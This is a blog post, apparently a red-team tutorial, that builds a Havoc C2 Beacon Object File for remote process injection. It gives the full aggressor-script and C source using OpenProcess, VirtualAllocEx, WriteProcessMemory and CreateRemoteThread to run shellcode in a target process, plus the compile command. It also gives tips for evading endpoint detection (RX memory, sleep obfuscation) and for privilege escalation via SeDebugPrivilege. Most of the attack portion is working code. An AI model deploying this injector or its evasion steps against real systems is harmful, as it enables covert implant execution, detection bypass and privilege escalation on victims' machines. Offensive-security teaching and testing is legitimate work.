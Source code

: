 [back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead of Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)
    binary: bytes = None #for the shellcode

    #check args for input
    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    # prints out if the input is not binary
    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary) #shellcode
    packer.addint(int(args[1])) #target process ID

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
    
    #executes BOF
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)
    #testbof procinj /home/kali/mdev/havocbof/demon.x64.bin 1992
    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);

//main function
void go(char* args, int argc){
    
    //variables
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;
    DWORD tid = 0;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    
    //extracts the input and assign it on shellcode variable
    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    
    //assigns the target process ID
    procid = BeaconDataInt(&parser);

    //prints the target PID
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %d", procid);

    //open handle on the target process with all access (dwDesiredAccess)
    //https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights
    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return 1; //failure
    }

    //allocate enough memomry on the target process based on the shellcode length, set the memory region as read write
    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, shellcodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!bufferMemoryaddr) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT,"[!] memory allocated at: 0x%p\n", bufferMemoryaddr);

    //write the shellcode/payload on the allocated memory
    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    //change the memory region of the allocated memory into read execute, so it can be executed later on
    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READ, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    //create a thread on the target remote process. The starting address will be the memory address of what we allocated earlier. It use LPTHREAD_START_ROUTINE to execute the thread and eventually gain a callback 
    //https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/lpthread-start-routine-function-pointer
    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, &tid);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread id : %lu \n", tid);
    //close the process handle
    KERNEL32$CloseHandle(pHandle);

}
```

To compile just the same, use the command below.

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```
Get a shell, then execute the BOF. As shown from the screenshot below it shows the memory address that has been allocated on the target process and it's remote thread ID for debugging purpose.
![alt text](img/image4.png)
![alt text](img/image-1.png)


Just a little information on how to check what was written on the memory address you can use **x64dbg, attach to the target process then press ctrl + g, paste the memory address**. In this screenshot I change my payload to msfvenom calc bin so it can be easier to read. As shown we can see the signatured `FC 48 83` and then the calc.exe
![alt text](img/image-2.png)

My havoc payload that I used, performs a sleep obfuscation technique with WaitForSingleObjextEx. TL;DR: Sleep obfuscation **changes the memory protection from RW to RX, and then back to RW** [sleep obfuscation](https://dtsec.us/2023-04-24-Sleep/)

To check what happens on sleep, use process hacker, check the target process and then go to the threads, locate the thread id. The screenshot below shows when it's on sleep. 
![alt text](img/image22.png)

The screenshot below shows when it's not on sleep. As observe it's using winHTTP library for the communication.

![alt text](img/image5.png)

If you are trying to perform a process injection on a process owned by other user or a process owned by NT authority and you dont have enough privilege. This wont be possible because of access control restrictions. But if you enable SeDebugPrivilege you will be able to inject and gain the token permission level of the target process resulting into privilege escalation.
![alt text](img/image-3.png)


I changed the VirtualAllocEx with page execute read write and comment out the VirtualProtectEx to see the difference and also without the sleep obfuscation from have. I used the metasploit calc here for POC.

As shown from the screenshot below the RWX stands out and most endpoint security solution flags this and gets highly detected, so the better approach is to change it to RX. If you change it to Read it wont be executed. Clicking on the RWX this shows what was written on that memory and it shows the metasploit calc.
![alt text](img/image6.png)

References
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm
- https://dtsec.us/2023-04-24-Sleep

[back to blog](../blog.md)